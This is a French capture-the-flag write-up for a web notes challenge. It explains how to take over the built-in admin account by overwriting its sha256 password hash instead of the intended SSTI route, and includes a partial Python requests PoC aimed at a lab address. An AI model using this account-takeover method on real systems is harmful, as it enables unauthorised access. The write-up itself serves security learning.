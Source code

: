 La méthode intended serai de modifier la propriété *restricted* de notre utilisateur pour ensuite activer *seeTemplate* et abusé de la SSTI.

Je vais ici présenter une méthode un petit peu plus rapide.
On remarque qu'un utilisateur ``admin`` est déjà présent:  
```python
class Users:
    users = {}

    def __init__(self):
        self.users['admin'] = {'password': None, 'restricted': False, 'seeTemplate':True }
```

Celui-ci a déjà les bonnes permissions mais nous ne connaissons pas son mot de passe.
Plus loin on lit:  
```python
def login(self, username, password):
        if username in self.users and self.users[username]['password'] == hashlib.sha256(password.encode()).hexdigest():
            return True
        return False
```


Le *login* se fait en hachant les mots de passe en ``sha256``.  
Nous allons donc réécrire le mot de passe de l'utilisateur admin avec un sha256 dont nous connaissons le plaintext.


# POC.

On peut donc écrire une POC proprement :  
```python
import requests
import random
import re
import hashlib

class exploit:
	def __init__(self,url,session):
		self.url = url
		self.sess = session

	def login(self,user,pwd):
		r = self.sess.post('%s/login'%(self.url),data={"username":user,"password":pwd})
		return 'Error while login user' not in r.text

	def register(self):
		self.user = ''.join([random.choice('abcdef') for _ in range(15)])
		self.pwd = self.user
		r = self.sess.post('%s/register'%(self.url),data={"username":self.user,"password":self.pwd})
		return 'Logout' in r.text

	def create_note(self,name,value):
		r = self.sess.post('%s/create'%(self.url),data={"name":name,"content":value})
		return r.text
		return re.findall(r'<a href="articles/(.*?)</a>',r.text)

	def view_note(self,note):
		return self.sess.get('%s/articles/%s'%(self.url,note)).text

exp = exploit(
	url='http://13.37.17.31:50656',
	session=requests.session()
)
```

[//]: <> (Wrote By Vozec 06/05/2023)